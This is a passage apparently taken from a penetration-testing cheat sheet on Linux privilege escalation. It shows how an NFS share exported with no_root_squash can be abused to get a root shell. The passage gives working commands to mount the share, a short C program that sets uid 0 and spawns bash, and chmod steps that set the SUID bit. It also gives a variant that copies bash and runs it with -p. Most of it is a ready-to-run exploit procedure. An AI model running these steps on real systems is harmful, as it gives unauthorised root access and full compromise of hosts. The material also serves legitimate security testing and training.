    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:


    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:


    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    # gcc -o rootsh rootsh.c
    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:


    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:


    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:


    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).


    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #
</details>
